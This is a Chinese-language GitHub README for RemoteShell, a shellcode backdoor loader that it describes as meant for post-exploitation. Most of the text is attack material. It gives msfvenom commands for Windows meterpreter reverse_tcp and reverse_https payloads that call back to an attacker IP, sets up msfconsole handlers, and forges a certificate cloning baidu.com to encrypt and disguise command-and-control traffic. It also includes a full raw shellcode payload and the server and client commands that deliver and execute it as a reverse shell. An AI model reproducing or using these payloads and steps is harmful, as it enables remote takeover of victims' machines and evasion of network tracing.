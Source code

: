 # RemoteShell 远程Shell加载工具

<br>

<div align=center>
 
![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)
 
</div>

<br>

这是一款远程`ShellCode`后门加载运行程序，工具主要用于在后渗透阶段使用，可动态传输并执行服务端发送的ShellCode载荷，实现动态反弹。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.93.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.93.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.93.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

 - TCP反弹演示

用户通过`msfvenom`生成ShellCode代码，然后将其保存为`shellcode.log`文本文件。
```C
"\xb8\xda\x7e\x23\x13\xdb\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x59\x31\x43\x14\x83\xeb\xfc\x03\x43\x10\x38\x8b\xdf\xfb\x33"
"\x74\x20\xfc\x2b\xfc\xc5\xcd\x79\x9a\x8e\x7c\x4d\xe8\xc3\x8c"
"\x26\xbc\xf7\xbd\xc7\xca\x8a\x95\x38\x7a\x20\xc0\x77\x44\x19"
"\x30\x16\x38\x60\x65\xf8\x01\xab\x78\xf9\x46\x7d\xf6\x16\x1a"
"\xf5\xaa\xf8\x10\x4b\x77\xf9\xf6\xc7\xc7\x81\x73\x17\x90\x05"
"\x30\x99\xcf\x6e\x80\x81\xbf\xfb\x49\x92\x3e\x28\xec\x1b\x34"
"\xf2\xde\x64\xfc\x81\x15\x10\xfe\x43\x64\xe6\xad\xaa\x48\xeb"
"\xac\xeb\x6f\x14\xdb\x07\x8c\xa9\xdc\xdc\xee\x75\x68\xc2\x49"
"\xfd\xca\x26\x6b\xd2\x8d\xad\x67\x9f\xda\xe9\x6b\x1e\x0e\x82"
"\x90\xab\xb1\x44\x11\xef\x95\x40\x79\xab\xb4\xd1\x27\x1a\xc8"
"\x01\x8f\xc3\x6c\x4a\x22\x15\x10\xb3\xbc\x1a\x4c\x23\x70\xd7"
"\x6f\xb3\x1e\x60\x03\x81\x81\xda\x8b\xa9\x4a\xc5\x4c\xb8\x5d"
"\xf6\x83\x02\x0d\x08\x24\x72\x07\xcf\x70\x22\x3f\xe6\xf8\xa9"
"\xbf\x07\x2d\x47\xca\x9f\x0e\x3f\x97\xdf\xe7\x3d\x28\xc7\xf8"
"\xc8\xce\x57\x57\x9a\x5e\x18\x07\x5a\x0f\xf0\x4d\x55\x70\xe0"
"\x6d\xbc\x19\x8b\x81\x68\x71\x24\x3b\x31\x09\xd5\xc4\xec\x77"
"\xd5\x4f\x04\x87\x98\xa7\x6d\x9b\xcd\xdf\x8d\x63\x0e\x4a\x8d"
"\x09\x0a\xdc\xda\xa5\x10\x39\x2c\x6a\xea\x6c\x2f\x6d\x14\xf1"
"\x19\x05\x23\x67\x25\x71\x4c\x67\xa5\x81\x1a\xed\xa5\xe9\xfa"
"\x55\xf6\x0c\x05\x40\x6b\x9d\x90\x6b\xdd\x71\x32\x04\xe3\xac"
"\x74\x8b\x1c\x9b\x06\xcc\xe2\x59\x21\x75\x8a\xa1\x71\x85\x4a"
"\xc8\x71\xd5\x22\x07\x5d\xda\x82\xe8\x74\xb3\x8a\x63\x19\x71"
"\x2b\x73\x30\xd7\xf5\x74\xb7\xcc\x06\x0e\xb8\xf3\xe7\xef\xd0"
"\x97\xe8\xef\xdc\xa9\xd5\x39\xe5\xdf\x18\xfa\x52\xef\x2f\x5f"
"\xf2\x7a\x4f\xf3\x04\xaf";
```

服务端就是攻击者，在本机执行如下命令，意思是使用TCP模式，侦听本地`8889`端口，一旦客户端上线则自动将`shellcode.log`传输给客户端。
```C
Shell> RemoteShell.exe RunServer --type tcp --listen 8889 --shellcode d://shellcode.log

[*] TCP服务端启动端口: 8889 正在等待上线.
```

此时客户端执行如下命令，意思是主动连接到服务端`127.0.0.1`下面的`8889`端口并执行ShellCode反弹。
```C
Shell> RemoteShell.exe RunClient --type tcp --address 127.0.0.1 --port 8889
```

GitHub项目地址：https://github.com/lyshark/RemoteShell
